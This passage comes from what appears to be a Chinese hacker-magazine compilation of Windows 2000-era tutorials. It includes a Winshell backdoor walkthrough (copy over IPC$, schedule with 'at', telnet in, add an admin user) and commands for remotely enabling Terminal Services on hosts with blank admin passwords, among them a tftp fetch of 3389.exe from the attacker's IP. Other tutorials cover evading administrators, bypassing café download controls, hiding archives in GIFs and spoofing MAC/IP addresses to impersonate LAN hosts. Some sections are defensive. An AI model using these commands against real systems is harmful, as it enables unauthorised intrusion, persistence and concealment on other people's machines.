接下来修改一下注册表，让文件更彻底地隐藏起来。在“开始”→“运行”中输入 Regedit，打开注册表编辑器，展开到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\explorer\Advanced\Folder\Hidden\SHOWALL` 分支，修改 DWORD 值 `CheckedValue` 的键值为 0（默认为 1；如果没有该 DWORD 值可以新建），如图3所示。


关闭注册表编辑器，按 F5 刷新桌面。现在这些文件隐藏得更深了，不信你可以看看它们：进入“我的电脑”中，点击“查看(V)”→“文件夹选项”→“查看”→“显示所有文件”，如图4所示。本来这样可以查看所有隐藏的文件，但进入隐藏文件的那个回收站后，什么也没有发现。

利用这种方法隐藏目录和文件，非常巧妙。原因有三：一是别人想不到回收站中藏有秘密；二是修改注册表后这些隐藏起来的文件和目录更隐蔽了，在 Windows 下根本发现不了；三是即便发现了这些隐藏的目录和文件，也会由于绝对路径太长而无法进入该目录查看文件。


### 简简单单学汉化

软件的汉化学习起来并不是那么困难，也不神秘。就算你不懂汇编语言，只要你会正确使用工具就可以把软件汉化得很好。以前玩 DOS 游戏时修改金钱、查找数值等操作，其实和如今利用工具修改程序有相通之处。

但是以前汉化程序是一个很累的工作，所以我决定写这篇文章，让大家都掌握汉化方法，这样大家就可以汉化自己喜欢的英文版程序了。下面就让我带大家一步一步来汉化软件。

刘晖

### 需要软件

- exescope 6.0 中文版（最新版本 6.3）
- CreatInstall（小巧的安装软件制作工具）
- 汉化软件：lc4.exe

首先，我们运行 Exescope 程序，如图1所示；选择“文件”菜单中的“打开”选项，在“打开”对话框中选择需要汉化的 EXE 文件，如“LC4.EXE”，如图2所示。


打开后在程序左边栏会有几项菜单，我们点击“resource”前面的“+”号（注：在 6.3 版里显示为“资源”），展开如图3所示菜单。


这些菜单就是我们汉化软件的关键了。我们点击列表中的“菜单”选项，会出现一些代码编号，点击“128”，在程序左边框就会出现程序内码（当然，这些已经被反汇编的啦）。我们看到最上面一行（0,&File），选中它点击鼠标右键，在右键菜单中选择“编辑”，如图4所示。


图4

这个就是“LC4”程序主界面上的工具栏中的“文件”菜单，我们把它修改为中文（0,文件），修改之后在 Exescope 程序里选择“编辑”→“保存修改”即可，如图5所示。

下面我们进行程序主窗口标题的汉化。在 Exescope 程序界面左边显示框可以看到字符串下面有很多数字，一般第一个数字都是被汉化程序的主界面，当然你也可以参考程序菜单单词来比较确定，这里选择左边框第一数字“9”，然后把右边框的第一行英文改成中文就 OK 了，如图6所示。


图5


图6

这样，我们就把“LC4”工具栏中的主菜单汉化了“文件”和程序主窗口标题两项，如图7所示。


图7

按照以上方法依次类推，我们就可以把“LC4”里的英文信息汉化成中文。当然，里面的图片和其他资源，也可以替换。（大家自己摸索吧）

完成汉化后，我们可以用其它安装制作程序打包文件，这样看起来会专业很多。下面以 CreateInstall 安装制作程序举例。首先运行它，在主界面中点击“项目”→“创建新项目”，然后按照程序提示一步一步设置你要打包程序的路径、窗口标题、安装路径、快捷方式等选项，如图8、图9、图10所示。


图8


图9


图10

全部设置好之后，即可点击程序主界面中的“创建安装程序”键，这样 CreateInstall 就会自动把选择好的打包程序制作成一个 `SETUP.EXE` 文件，如图11所示。

## 入侵NT中

### winshell的使用

### 1 介绍

Winshell 是国内顶尖黑客“孤独剑客”的作品，主要是一个小型远程登录后门，体积较小。文中说明可在其网站下载相关文件，并介绍了该工具的基本用途与背景。

文章说明：Winshell 可提供类似 Telnet 的功能，使用方法相对简单，后文将结合图片演示如何配置与使用。

### 2 配置

首先将下载得到的 Winshell 压缩包解压，得到若干文件（图1）。其中 winshell.exe 是配置程序，chinese.txt 为中文帮助。运行 winshell.exe 后出现配置窗口（图2）。


主要需要配置端口、密码、密码提示和自动运行等选项，配置完成后界面如图3。


- **Port**：设置连接端口
- **Password**：设置连接密码
- **Password Banner**：连接时输入密码提示
- **RegKeyName**：注册表自动运行键值名称
- **Service**：Windows 服务显示名称
- **AutoInstall**：是否自动安装 Winshell


还有“Compress WinShellServer”选项（默认勾选）。点击“Make”生成文件，示例生成名为 kerlnt.exe，并伴随记录文件 winshell.exe.sig（图5）。


### 3 使用

本节说明实战使用流程：先找到目标主机，通过 IPC$ 连接，再将后门文件复制过去并执行。

示例中先连接目标（图6），复制 kerlnt.exe（图7），再用 `net time \\*.*.*.*` 获取系统时间（图8）。


接着使用 `at` 命令执行后门（图9），等待后通过 `telnet *.*.*.* 8310` 连接（图10）。输入设置的密码后进入目标机器，获得 shell（图11、图12）。


图13

其中命令的说明为：

- `i (Install)` 远程安装功能，当你仅仅执行 Winshell 而没有安装 Winshell 的时候
- `r (Remove)` 远程反安装功能，注意此命令并不终止 winshell 的运行
- `p (Path)` 查看 Winshell 主程序的路径信息
- `b (reBoot)` 重新启动机器
- `d (shutdown)` 关闭机器
- `s (Shell)` 执行后你就会看到可爱的 `C:\>`，这正是 Winshell 提供的 Telnet 服务功能
- `x (eXit)` 退出本次登录会话；注意此命令并不终止 winshell 的运行
- `q (Quit)` 终止 WinShell 的运行；注意此命令并不反安装 WinShell

（具体别的说明，请查看 `chinese.txt` 帮助文件）

我们键入“S”命令就可进入普通的 Telnet，可以执行任何操作，现在他的电脑就被我们完全控制，你想干什么就随便你啦（图14）！


图14

我们建立一个用户，并且加入管理员组，就可 bye bye 啦！如图15。


图15

### 4 结束语

通过上面对 Winshell 的使用，我们知道了这个小东西的厉害，很多其中的奥妙，需要自己去实践去体会。不明白的地方可以参考 `chinese.txt` 帮助文件，希望你有所收获哦！！

> （声明：本文仅供研究之用，请勿用于任何非法途径，否则后果自负！）

### 忘记管理员密码的解决方法

无琴

最近有朋友向我询问 Win2000 下管理员密码忘记了，如何解决的问题，他也在网上找了些技术文章，但总是不太明白，所以我想就这个问题提出一个解决方法。

首先，准备一张软盘，然后在别人的机器上下载一个叫做 `bd011022.bin` 的映像文件（可以在光盘中得到它），接下来要解压缩这个文件，我们可以使用 `rawrite2.exe` 程序，这是一个很简单的工具，它能够从映像文件制作出软盘，我们也可以从光盘中找到。

得到后把它们都 copy 到 C 盘根目录下，接着打开命令提示符或者 DOS，运行 rawrite2。它会提示你输入要解压的文件，这里就输入 `bd011022.bin`，然后输入目标位置，就输入 a，按下来把软盘放进去，然后按 Enter 就可以了。如图所示。


接着把软盘放进忘记密码机器的软驱里，然后开机，在 CMOS 里设定从软驱启动。接着你就可以进一个 Linux 的特殊形式，等待启动后，系统会询问是否要查找 scsi 驱动器，输入 n，接下来系统则会询问在哪个分区安装的 Win2000，它会提供一些位置，如 `/dev/hda1`、`/dev/hda5` 等等（这里的位置都是采用 LINUX 的形式），如果你不太明白，可以一个个地试过去，一般它会自己为你找出正确的分区，那么你只需要按 Enter 键确定就可以了。

如果你的硬盘格式没有采用 NTFS，而是采用了 FAT，那可能会看见安装失败的消息，不过不要管它，只要有 `partitions found on the disks` 就可以了。

结束这一步之后，系统会给你两个选项，一个是进入口令模式来编辑账号，一个是编辑注册表。选择第一个，接下来要实例给出一个 `sam` 文件的路径，sam 就是存储 2000 账户信息的一个数据库文件，它的默认路径是在 `/winnt/system32/config` 里。输入后按回车，应该会看到一个目录，里面包含了这个目录里的文件信息，当然是用 Linux 的形式显示的，你可以看见关于文件权限、修改日期、文件名等信息。这个时候系统会让你修改用于改变口令的默认条目（sam system security），按 Enter 键。

接下来，系统让你选择是否禁用 syskey，syskey 是 Win2000 用来保护口令的工具，它可以对 sam 中的口令进行加密，一般是不用禁用 syskey 的。如果你禁用的话，那么系统里所有的口令就都清除了，而且现在我们对 sam 的修改也不是试图解密，那是不现实的。我们只是把信息写入 sam，因此选择“no”。

完成后，我们就可以见到所有账户了，每个账户前面的 rid 是 sam 给每个用户的唯一标值，接下来输入你要修改的账号，比如 administrator。然后会提示你输入新的口令，接下来，系统问你是否确认，输入 y，最后输入 `!` 退出口令修改模式，接着系统会问你一些问题，是关于是否写入配置单元、是否写入 sam 等，全部都输入 y，这样就修改完成了。

把软盘取出，按 Ctrl+Alt+Del 重启，你就可以用新设定的管理员密码进入你的机器了。

## Win2000自动登录系列实现、破解及防范

网络游侠

有没有想过让你的 Win2000 登录的时候变点样子？比如说不用按下 CTRL+ALT+DEL，也不用输入用户名和密码？下面我们就一起讨论一下 Windows 2000 的自动登录。

### 实现篇

- 方法1  
如果你的系统是 Windows 2000 Professional 版，可在“我的电脑→属性→网络标识→网络 ID”中设置，选择“本机用于家庭，不是商业网络的一部分”，并在后续向导里配置自动登录的用户名与密码，完成后即可实现自动登录（图1）。

图1

- 方法2  
如果电脑安装了超级兔子魔法设置，可在“安全与多用户”中启用“使用自动登录系统”，并填写用户名和密码后保存（图2）。

图2

- 方法3  
最直接的方法是修改注册表：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`。新建字符串 `AutoAdminLogon` 并设为 `1`，再配置 `DefaultDomainName`、`DefaultUserName`、`DefaultPassword`。

```text
AutoAdminLogon: 1
DefaultDomainName: YOUXIA
DefaultUserName: Administrator
DefaultPassword: Hacker520
```

如果把 `AutoAdminLogon` 的值改为 `0`，则禁止自动登录。

相信大家都用过 X-Scan 吧？扫描装有 NetBIOS 的电脑时，可在结果中的“NetBios 信息/远程注册表信息”里看到相关登录信息（图3）。

图3

### 破解篇

- 方法1  
若有人在你电脑前打开 `regedit`，找到保存自动登录信息的注册表位置，就可能直接得到密码。

- 方法2  
若通过其他方式获得某用户访问权限，或目标机器存在空口令/弱口令用户（如 Guest），也可能进一步读取相关注册表信息。

- 方法3  
若掌握管理员凭据，可通过“连接远程注册表”远程访问目标注册表，读取自动登录相关键值。

- 方法4  
还可通过网络扫描等方式发现并提取自动登录信息，风险取决于系统和网络暴露面。

### 防范篇

- 方法1  
取消自动登录：将 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下 `AutoAdminLogon` 从 `1` 改为 `0`，并删除 `DefaultDomainName`、`DefaultUserName`、`DefaultPassword` 等键值。

- 方法2  
加强系统与权限防护：使用 NTFS 权限限制、关闭不必要共享；在服务器环境可进一步通过注册表（如 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\lanmanworkstation\parameters`）进行安全加固。

AutoShareWks 和 AutoShareServer，值为 0。如果是 Professional 版本，把 AutoShareServer 改为 AutoShareWks 就可以了。你也可以在自动批处理文件 Autoexec.bat 中加入以下内容：

```bat
net share ipc$ /delete
net share admin$ /delete
net share c$ /delete
net share d$ /delete
net share e$ /delete
net share f$ /delete
```

看明白了吗？第一行阻止了 IPC$ 空连接，第二行是把系统目录自动共享删除。下面的就是删除各个默认共享的分区了。当然为了防止别人远程读取你的注册表，你还要在你的账户属性“拨入”中设置“远程访问权限”为拒绝，或者你为远程访问设定一个策略，这样也比较保险（图4）。

还有啊，给管理员设置一个强壮的密码，如果你设置了一个空密码或者 123、aaa 之类的白痴密码，那么你上面的这些功夫就白费了！

### 轻松开启 Win2k 终端服务

提起 Win2k 的终端服务大家都不会陌生吧！也就是大家常说的 3389 端口，它是 Win2000 Server 以上版本的一个服务。服务的全称是：Terminal Service。这个服务曾经也出现过漏洞，比如前些日子闹得沸沸扬扬的输入法漏洞就是这个服务引起的。这个终端服务的最大好处是图形界面的操作，可以像操作自己计算机一样操作远程计算机，算是网虫中的极品，备受青睐。可很多朋友都不太会远程开启 Terminal Service 服务，本篇要讲的内容就是如何远程开启终端服务。

### 一、所需工具

- 1. 3389.vbe（在对方开启 NetBIOS 的情况下开启终端服务）
- 2. 3389.bat（一个批处理文件，可在对方主机上直接执行开启终端服务）
- 3. 3389.exe（一个非常简单的开启终端服务的小工具，强烈推荐使用）
- 4. c3389（修改终端服务的小工具，非常小巧而且实用）
- 5. mstsc（远程桌面连接）

> 注意：以上工具在光盘中均有收录。

### 二、具体操作

工具我们就需要以上 5 个。首先要为大家讲的是，在对方开启 NetBIOS（即 139 和 445 端口）的情况下，开启终端服务。3389.vbe 是我根据一个叫“远程 Windows 2000 终端服务开启器”改编而来的。原来这个程序用的是 *.vbs 文件远程开启终端服务。可有些人反映，执行 *.vbs 提示没有安装脚本宿主引擎，我就把它改编为 *.vbe 类型。在 Windows 98/NT/2000 专业版和 Win2000 Server 版/Windows XP 下测试全部通过，下面我为大家先介绍 3389.vbe 的使用方法。

首先，需要获得对方 administrators 组的帐号和密码，一般就是 administrator 这个帐号。怎么获得密码呢？首先要获得或者创建一个具有管理员权限的帐号，如何实现呢？大家可以利用 webdav 溢出、printer 溢出、idq 溢出或弱口令等漏洞来实施（感兴趣的朋友请参考以前 X 档案的详细介绍）……只要是可以拿到管理员帐号就可以。下面是一个主机的扫描结果：

```text
端口80开放: HTTP
[Banner]
HTTP/1.1 400 Bad request ...
[End of banner]
端口113开放: Authentication Service
[Banner]
[None]
[End of banner]
端口135开放: Location Service
...
端口139开放: NETBIOS Session Service
...
端口445开放: Microsoft-DS
...
Administrator/空口令
帐户类型: 管理员 (Administrator)
```

### 傻瓜黑客

从以上扫描结果可以看出，该主机开放 NetBIOS 信息，开放 139 和 445 端口，有一个 administrator 弱口令的管理员账号。下面我就用 3389.vbe 开启对方的终端服务。3389.vbe 的使用方法是：

```bash
cscript 3389.vbe 远程IP "远程用户名" "密码" 3389（/端口最好使用3389）/r（重新启动选项）
```

```bash
cscript 3389.vbe 218.xxx.xxx.xxx "administrator" "" 3389 /r
```

具体请看图1。看到图中的信息，说明对方已经重新启动了。现在我们只需祈祷对方没有管理员在机前，不会被发现。

图1

过了不一会儿，用 Scanner3.0 检测到图2所示的信息。

图2

看到了吗？说明对方主机已经完成重新启动，已经开启 3389 端口，说明开启终端服务成功。接下来，我们用远程连接工具——mstsc.exe 连接目标 IP，然后再输入用户名和密码，即可连接到远程计算机桌面（图3）。

图3

以上就是利用 3389.vbe 远程开启终端服务。由于一些服务器本身没有开启 139 和 445 端口，这样就不能用以上的方法开启终端服务了。下面我教大家如何在对方没有开启 139 和 445 端口的情况下开启终端服务，这里用到的工具是 3389.bat，其实这就是一个批处理命令。

```bash
copy con 3389.bat
echo [Components] > c:\sql
echo TSEnable = on >> c:\sql
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\sql /q
```

这样，就会生成一个 3389.bat 文件，然后再用命令执行这个文件并重启等待服务上线。可用 Scanner3.0 检测 3389 端口是否开启成功；如果不成功，说明对方可能是专业版，可另外换台试试。最后，推荐一个更方便开启终端服务的小工具——3389.exe，只要你获得了 shell 并且对方是 Win2000 Server 版本，就可为远程主机开启终端服务。

```bash
C:\winnt\system32>tftp -i 你的IP get 3389.exe
C:\winnt\system32>3389.exe /r
```

这样，远程主机就自动重新启动了，等它再次上线就可直接登录远程桌面。`/r` 代表立即重新启动；如果你怕被管理员发现，可以不用 `/r` 参数，等对方下一次正常重启后即可登录。

以上几种方法是开启 Win2k 终端服务的常见方式。终端服务默认端口是 3389，这样并不好，主要有以下几种原因：

- 1. 容易被远程主机的管理员发现。
- 2. 许多扫描软件都可直接扫描到 3389 的开放，容易导致入侵行为暴露。

开启终端服务的“肉鸡”被其他“同行”抢走。现在，笔者为大家介绍一款小巧实用的软件——c3389.exe，它的主要作用就是修改远程主机终端的登录端口。远程修改端口的使用方法是：

```bash
c3389 \\192.168.0.1 "用户名" "密码" 需要修改的端口
```

```bash
c3389 \\218.xxx.xxx.xxx administrator "" 1234
```

执行后对方的终端端口由原来的 3389 就修改为了 1234（注：修改后需要远程主机重新启动，修改的端口才会有效）。介绍完了远程修改，再为大家介绍一下它的本地修改（做网管的朋友可使用这个功能修改终端端口，这样可减少被重复扫描的几率）。

```bash
c3389
c3389 1234
```

直接就可看到本地现在的终端端口为多少。修改终端端口的命令如上（1234 代表你想要修改的端口号）。怎么样？这个小巧的软件是不是功能很强大？

### 三、注意问题

- 1. 只有 Server 以上的版本才可开启终端服务，专业版不可以。
- 2. 开启终端服务需重新启动服务器，最好选择在管理员不在线的时间开启。
- 3. 用 3389.bat 开启终端服务时会生成一个 sql 文件，容易被发现。
- 4. 用 c3389.exe 修改完以后，再次登录时用 `ip:端口` 来登录。假设 IP 为 218.xxx.xxx.xxx，修改后的端口是 1234，用 mstsc 登录时一定要把 IP 写成 `218.xxx.xxx.xxx:1234`，否则无法登录。

## 突破网络执法官封锁的方法及其原理

网络执法官是一款网管软件，可用于管理局域网，能禁止局域网任意机器连接网络。对于网管来说，这个功能自然很不错，但如果局域网中有别人也使用该功能那就麻烦了。因为这样轻则会导致别人无法上网，重则会导致整个局域网瘫痪。有什么解决办法呢？请您看下面的招数及其原理。

### 一、网络执法官简介

我们可以在局域网中任意一台机器上运行网络执法官的主程序 NetRobocop.exe。它可以穿透防火墙、实时监控、记录整个局域网用户上线情况，可限制各用户上线时所用的 IP、时段，并可将非法用户踢下局域网。该软件适用于局域网内部管理，适合局域网管理员使用。

在网络执法官中，要想限制某台机器上网，只要在“网卡”菜单中的“权限”中设置即可。对于未登记网卡，也可以通过默认权限控制其是否可上线。其原理是通过 ARP 欺骗向被攻击电脑发送假的网关 IP 对应 MAC，使其找不到真实网关 MAC，从而无法上网。

### 二、ARP 欺骗的原理

网络执法官中利用的 ARP 欺骗使被攻击的电脑无法上网，其原理就是使该电脑无法找到网关的 MAC 地址。ARP（Address Resolution Protocol）是地址解析协议，用于将 IP 地址解析为数据链路层 MAC 地址。

ARP 原理：主机 A 向主机 B 发包前会查询本地 ARP 缓存；若未命中，A 会广播 ARP 请求，B 收到后回应自己的 MAC，A 更新 ARP 缓存并据此通信。ARP 缓存是局域网通信基础且为动态更新。

> 如果有人伪造 ARP 应答，把某个 IP 对应到一个不存在或错误的 MAC 地址，就会造成网络不通，导致 A 不能 Ping 通 C。这就是一个简单的 ARP 欺骗。

网络执法官利用的就是这个原理！知道了它的原理，再突破它的防线就容易多了。

### 三、修改 MAC 地址突破网络执法官的封锁

根据上面的分析，只要修改 MAC 地址，就可以绕过网络执法官的封堵。方法是在注册表中定位网卡项（如 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Class\{4D36E972-E325-11CE-BFC1-08002BE10318}` 下的对应子键），添加或修改 `NetworkAddress` 等字段为新的 12 位十六进制 MAC 值；在驱动高级属性中可看到对应“MAC Address/Network Address”项并进行设置。重启后新地址生效。

网上会发现有一个 MAC Address 的高级设置项，用于直接修改 MAC 地址。

> 小知识  
> MAC 地址是网络设备的物理地址，一般表示为 12 个 16 进制字符（如 `08:00:20:0A:8C:6D`），由厂商分配，通常具有唯一性。

另外，网络执法官的原理是通过 ARP 欺骗给某台电脑有关假的网关 IP 地址所对应的 MAC 地址，使其找不到网关真正的 MAC 地址。因此，只要我们修改 IP 到 MAC 的映射就可使网络执法官的 ARP 欺骗失效。

你可以先 Ping 一下网关，然后再用 `ARP -a` 命令得到网关的 MAC 地址，最后用 `ARP -s IP 网卡MAC` 命令将 IP 地址和 MAC 地址映射起来就可以了。

### 四、找到使你无法上网的对方

解除网络执法官的封锁后，我们可以利用 Arpkiller 的“Sniffer 杀手”扫描整个局域网 IP 段，然后查找处在“混杂”模式下的计算机，即可发现对方。

图2

图3

检测完成后，如果相应的 IP 是绿帽子图标，说明该 IP 处于正常模式；如果是红帽子，则说明该网卡处于混杂模式，它就是我们的目标。

> 注意  
> 扫描时自己也处在混杂模式，把自己去掉再判断。

找到对方后怎么对付它就是你的事了，比如可以利用网络执法官把对方也给封锁。Arpkiller 在光盘中也有收录。

天流

大家知道，网吧由于网吧管理软件的限制会禁止下载文件。本文分享几种常见方法，针对临时下载和下载自带文件两种情况分别说明。

### 一、下载临时看到的文件

一般说来，我们要下载的文件主要是 EXE 或 ZIP 文件，这些也是网吧管理软件重点限制的对象。

- 1、网吧管理软件——美萍

如果网吧管理软件是美萍，可以编写一个 `.inf` 文件并通过安装动作删除相应注册表分支来解除下载限制。

```ini
[Version]
Signature="$CHICAGO$"

[DefaultInstall]
Delreg=Del
```

```ini
[Del]
HKLM,"Software\Mpsoft\Sntenu\downitems"
```

右击该 inf 文件并选择“安装”，可删除注册表中的 `downitems` 分支，从而恢复 ZIP/EXE 下载。

> 注意  
> 若系统是 Win2000/XP，INF 文件语法与旧系统有所不同，节名与键值格式需要严格正确。

- 2、网吧管理软件——万象幻境

如果网吧管理软件是万象幻境，也可使用类似的 inf 方式解除限制，只需将注册表路径替换为对应项即可。

具体说就是 `HKEY_LOCAL_MACHINE\Software\万象幻境\专家系列网管软件\Protected` 限制了我们的自由。这回我们换个形式，不使用 `.inf` 文件了，我们使用 `.vbs` 文件来解除万象幻境对下载软件的限定。

用记事本编写如下内容的 `.vbs` 文件：

```vbscript
Dim WSHShell
Set WSHShell=WScript.CreateObject("WScript.Shell")
WScript.Echo "解除万象幻境禁止下载软件"
WSHShell.RegDelete "HKLM\Software\万象幻境\专家系列网管软件\Protected\*.zip"
```

这样，点击这个 `.vbs` 文件就会弹出一个对话框，提示你“解除万象幻境禁止下载软件”，点击对话框上的“确定”按钮就可以自由下载软件了。

如果有其他类型的网吧管理软件，它们的原理应该是相同的，你只要如法炮制即可。

### 二、下载事先准备好的软件

下载事先准备好的软件，方法可以和上面相同，也可不同。核心思路是先对将要在网吧使用的文件进行“伪装”，使之不在网吧管理软件禁止下载的范围内。

例如，网吧管理软件可能不允许下载 ZIP 和 EXE 文件，但通常不会禁止图片文件下载。因此可把目标文件先“伪装”成图片文件，再进行传输与下载。

这样做还有一个好处：即便管理员看到你下载的文件，也可能只看到正常图片外观，不容易发现内部另有内容。

### 1. 用 Copy 命令把待下载的文件变为 gif 文件

大家知道，Copy 是 DOS 下的常用命令，利用它可把准备在网吧中下载的文件变为 gif 文件。将该 gif 文件放到网上后，下载时通常不会受到阻碍。

具体方法是：假设要在网吧使用的文件是 hacker.zip，先准备一个名为 love.gif 的图像文件。在命令行中执行：`copy /b hacker.zip+love.gif girl.gif`，即可生成新文件 girl.gif（图1）。

点击该文件会看到一张正常图片。若按住 Shift 右击 girl.gif，在菜单中选择“打开方式”（图2），再选择 winzip32 打开（图3），即可看到压缩包内容。

现在可以把 girl.gif 贴到论坛或邮件附件中。到网吧后访问该图片地址并“另存为”到硬盘，再用 WinZIP 打开即可得到原先放入的 ZIP/EXE 文件。

> 注意：`copy` 命令还可以把文本提示与压缩文件等进行合并，常见形式如 `copy hacker.zip /b + love.txt /a girl.gif`，用于在文件头部附加可见文本。

```bat
copy hacker.zip /b + love.txt /a girl.gif
```

### 2. 用 UltraEdit 把待下载的文件伪装成 gif 文件

如果不习惯命令行方式，也可在图形界面下完成。思路是用十六进制编辑软件 UltraEdit，把 ZIP 文件内容隐藏到 gif 文件中。

示例中假设目标为 hacker.zip，先准备 love.gif。用 UltraEdit 打开 hacker.zip，选中全部并复制；再打开 love.gif，在十六进制视图末尾位置粘贴 ZIP 的全部代码并保存。

测试时单击 love.gif 仍显示正常图片；若改名为 `.zip` 后打开，则可看到嵌入的 hacker.zip 内容。将该 gif 上传后即可绕过常见下载限制。

本文主要目的是提供一种方法与思路，供读者参考。

### 傻瓜黑客

## ini文件的妙用——“神奇现象的背后”SP2

——falconer

在《黑客X档案》2003年第3期有一篇“神奇现象的背后”，看了之后，我突然想起以前玩电脑时发现的一件事来，现在给大家写出来，希望对你有些帮助。行动之前，大家先搞清一种文件格式——ini文件。在Windows中，它们被称作“环境初始化文件”，顾名思义，就是控制视窗基本环境的文件。它由中括号括起来的段号和其后面的内容组成。Windows中有很多这种类型的文件，比如：win.ini、system.ini等。明白了这种文件，let us go!

手边有Win9x系统吗？如果有的话，你将亲眼见到.ini文件的强大作用。打开“我的电脑”至C:\（有的可能是C:\Windows），如图1。看到了吗？这里有一个“recycled”目录，它就是回收站的映射。好了，现在右键单击“recycled”，选择“属性”，把“启用缩略图查看方式”选上，点一下“应用”。哈，看到了吗？“只读”那栏被自动选上了，去掉它，点“确定”。你会发现“recycled”变成了一个普通的文件夹（图2）。

打开它，已经不是熟悉的回收站了，里面静静地躺着一个desktop.ini文件（图3），解剖了它！内容如下：

```ini
[.ShellClassInfo]
CLSID={645FF040-5081-101B-9F08-00AA002F954E}
ConfirmFileOp=0
[{8BEBB290-52D0-11d0-B7F4-00C04FD706EC}]
MenuName=缩略图(&H)
ToolTipText=缩略图(&H)
HelpText=使用缩略图显示项目。
Attributes=0x60000000
[ExtShellFolderViews]
{8BEBB290-52D0-11d0-B7F4-00C04FD706EC}=
{8BEBB290-52D0-11d0-B7F4-00C04FD706EC}
```

就是它捣鬼！明白了这个道理，你就可以很轻松地隐藏文件夹了。你只需把上面这段内容复制到记事本中，把这个文件存为desktop.ini文件，并把它拖动到想要隐藏的文件夹中，然后将这个文件夹的“只读”属性选上，这个文件夹就变成回收站了。呵呵！好玩吧。用这个方法，你可以把任何一个普通的文件夹变成“我的电脑”、回收站、控制面板（图4）……

如果想把回收站变回文件夹，只需把文件夹的“只读”属性去掉，然后将其下的desktop.ini文件删除就可以了。

写到这里，忽然想起一个恶作剧程序——ilr，它能把所有文件夹通通变成回收站，让你摸不着头脑。想当初我还曾经用这个玩意骗得一顿饭啊^_^。

最后还有一件事我弄不明白，在Win98中，我们可以修改一个文件夹的属性使其“原形毕露”，但是在Win2000中，这个过程却是不可逆的：把一个含有desktop.ini文件的文件夹的“只读”属性选上后，它会变成回收站，但却不能通过修改属性使它变回来。我不知道这是为什么，希望高手指点迷津。


## 多管齐下 局域网隐身术

相信很多菜鸟同志和我一样忙着在局域网中练手，但却不知道如何更好地在局域网中隐藏自己的行踪。自己做肉鸡又怕没那个本事，目前个人计算机中主要的两种操作系统（Win98和WinXP）存在的、可以被夺取最高权限的漏洞又不多，而且很多工具通过肉鸡使用并不是很方便，难道就没有好办法来隐藏自己的行踪吗？这里，我向大家介绍一个通过精心伪装在局域网上隐形的方法。以下所有主机的操作系统为WIN2000/XP，而且局域网内使用的是静态IP分配。

### 一、如何隐藏

- 1. 使用Mac地址扫描器MacDraw（光盘中有收录）对局域网网段做一次扫描，同时获得NetBIOS名、工作组与IP地址（也可用 `nbtstat -a IP` 实现）。

> **注意**：隐蔽最好建立在目标主机在线基础上，可先用X-Scan扫描并ping测试主机在线状态。

- 2. 断开自己的网络连接，右击“我的电脑”→“属性”→“网络标识”，把计算机名和工作组全部改为扫描到的信息（图1）。


- 3. 更改网卡MAC地址。可通过注册表修改：在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\` 下找到对应网卡目录，定位 `DriverDesc`，并新增/修改 `NetworkAddress` 为目标网卡MAC（12位）。

例如常见网卡目录中 `DriverDesc` 为“Realtek RTL8139(A) PCI Fast Ethernet Adapter”，在此新增 `NetworkAddress` 字符串，内容写为目标MAC地址，注意长度与格式正确（图2）。


- 4. 也可在网卡“配置→高级→属性→NetworkAddress”中直接修改（有时可能不成功）。重启后重新连接网络，可用 `ipconfig /all` 验证。

### 二、测试

这是MAC地址和IP地址盗用结合伪装来达到隐身目的。设A机地址为 `192.168.0.1`、NetBIOS名为A，B为伪装机，C为第三方测试机。通过共享文件、规则不同的防火墙、TTL差异等方式判断到底由谁响应。

在C机上使用ping、net send等命令：当A、B同时在线时，响应多表现为A；浏览“网上邻居”时可见性并不稳定，有时能看到伪装后的B，有时不能。使用依赖监听的软件（如NC、嗅探器等）时也可能出现识别偏差。

进一步可禁用TCP/IP上的NetBIOS：在网络连接属性中选择“Internet 协议(TCP/IP)”→“属性”→“高级”→“WINS”→“禁用TCP/IP上的NetBIOS”（图3）。重启网络连接后，可提高在“网上邻居”中不可见的效果。


该操作实质上也抑制了NetBIOS常用的137、138、139端口行为，可结合TCP/IP筛选策略进一步限制暴露面。


防火墙的端口规则定制，也可达到同样的效果。不过此时你在“网上邻居”中也看不到其他人了，我们可以在地址栏中输入“\\IP”的方法来访问别的共享资源。这时是通过445端口来访问的。你可用这种方法来访问别人；当A机不在线时，其他人也可这样来访问你。那么如何再阻断这一条路呢？就是再使用防火墙配合严格规则，禁止其他人访问你的445端口和获得其他信息。这样一来，当A机不在线，而伪A机在线时，别人用“\\IP”的方法也看不到你了。

### 三、防范伪装攻击

对以上的伪装攻击，我们应该如何防范呢？（注意：由于对方盗用了MAC地址，使用ARP命令对IP地址和MAC地址做绑定是没有用处的。）只有尽快识破对方，并使其要获得的以上几种信息不被泄漏。可使用以下几种方法相结合：使用防火墙、禁止响应ping连接、禁用NetBIOS（可让别人没那么容易获得你网卡的MAC地址）。

那么如何查得自己的机器是否已经被冒充呢？当然只有在伪装机在线时，我们才能有蛛丝马迹可循。当两台真伪主机都在线时，在测试中特别是被盗主机偶尔会发现不稳定、蓝屏的现象（测试中三台机器都曾蓝屏，而且其中两台是品牌笔记本，连WINXP都蓝了，可见这类完全盗用危害不小）。这时可以首先把A机的网络断开，在其他主机上运行嗅探器，如果出现了本属于A机的IP，就可能已经被盗用。不过一般来说这种方法只在广播环境下才有用，而且比较被动。

另一种比较主动的方法是，使用扫描器（如X-SCAN）对有所怀疑的IP做无条件的完全扫描，只要对方在线，即使对方有防火墙，一般也会露出马脚（要做入侵总不会封了所有端口吧）！因为A机已经下线，所以只要有任何的响应，那么这个IP一定是被盗了。

### 服务，作为一个家族

服务，作为一个家族，随着Windows 2000的出现而流窜到我们的个人电脑。多年来经本司法庭再三核实，现决定公布其组织、宣布其罪行，介绍其成员，讲述其案例。望各Windows 2000以及Windows XP的用户多加留意，若还有其罪行或“公益活动”尚未被我法院发现，望群众举报，以便我法院早日作出公正的最终判决。

### 一、背景知识

